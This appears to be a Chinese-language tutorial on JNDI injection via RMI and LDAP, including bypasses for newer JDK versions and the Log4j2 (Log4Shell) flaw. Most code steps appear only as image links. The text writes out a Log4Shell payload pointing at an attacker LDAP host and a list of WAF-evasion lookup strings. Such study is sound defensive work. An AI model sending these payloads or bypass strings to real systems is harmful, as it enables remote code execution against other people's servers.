





什么是JNDI
JNDI(Java Naming and Directory Interface)是Java提供的Java命名和目录接口。
Naming Service 命名服务：命名服务将名称和对象进行关联，提供通过名称找到对象的操作
Directory Service目录服务：目录服务是命名服务的扩展，除了提供名称和对象的关联，还允许对象具有属性。
通过调用JNDI的API可以定位资源和其他程序对象。
通过名称查找(
lookup)对象通过对象的属性搜索(
search)对象
JNDI是Java EE的重要部分，JNDI可访问的现有的目录及服务有:JDBC、LDAP、RMI、DNS、NIS、CORBA，如
dns://domain
ldap://ip/name
rmi://ip/name
什么是RMI
RMI全称是Remote Method Invocation（远程⽅法调⽤），目的是为了让两个隔离的java虚拟机，如虚拟机A能够调用到虚拟机B中的对象，而且这些虚拟机可以不存在于同一台主机上。
RMI其发送、接收的数据都是反序列化数据。
什么是LDAP
LDAP，全称为 Lightweight Directory Access Protocol，即轻量级目录访问协议，主要用于资源查询。
漏洞形成原因
JNDI支持从指定的远程服务器上下载class文件，加载到本地JVM中，并通过适当的方式创建对象。
如果目标应用进行了JNDI查询（
lookup），并且其查询的地址或名称可控的话，就会形成JNDI注入漏洞
JNDI注入
流程

攻击者构造恶意协议，传入服务端（目标应用）
rmi://ip:port/name ldap://ip:port/name dns://{外带数据}.域名服务端连接到攻击者指定的服务，查询得到一个恶意的
JNDI Reference服务端解析该恶意
JNDI Reference根据解析结果到指定服务器上下载
Factory的字节码加载字节码，攻击者的恶意代码被执行
RMI
低版本
服务端

RMI服务

Reference reference = new Reference(className,classFactor,classFactoryLocation)
className：远程加载时所使用的类名classFactor：加载的 class 中需要实例化类的名称classFactoryLocation：提供classes数据的地址可以是 file/ftp/http 等协议
存放恶意字节码的WEB服务器
恶意字节码对应的java文件
先启动RMI服务和web服务器


再启动Server

高版本

com.sun.jndi.rmi.object.trustURLCodebase 默认为 false，所以会进入 if 语句，抛出异常。
绕过
原理
绕过抛出异常后进入javax.naming.spi.NamingManager


实现
Tomcat Server中的BeanFactory类，通过该类的getObjectInstance方法反射调用了javax.el.ELProcessor的eval方法，最终实现了EL表达式执行达到RCE的效果。
LDAP
低版本
同RMI，远程加载即可
高版本
当从LDAP Server传来的对象是序列化对象时，会调用readobject方法，存在反序列化漏洞。
版本影响
com.sun.jndi.rmi.object.trustURLCodebase 默认为 false

绕过方法
- 利用本地Class作为Reference Factory
- 利用LDAP返回序列化数据，触发本地Gadget
Log4J2
原理
Log4j是java用来处理日志的第三方组件，提供了Lookups的机制：
会对日志中用
${prefix:key}包裹起来的变量进行解析

当记录的信息为${jndi:xxx}时,log4j2就会发起JNDI Lookup查询,从而触发JNDI注入漏洞。
基本payload
?a=${jndi:ldap://xxxx/a}
log4j2包含的变量
waf绕过
假设过滤了字符abc
a${:-b}c
${lower:b}
a${::-b}c
a${E:-a}c
a${:-${:-b}}c
a${xxxanycodexxxx:-b}c
unicode编码绕过
插入空白字符绕过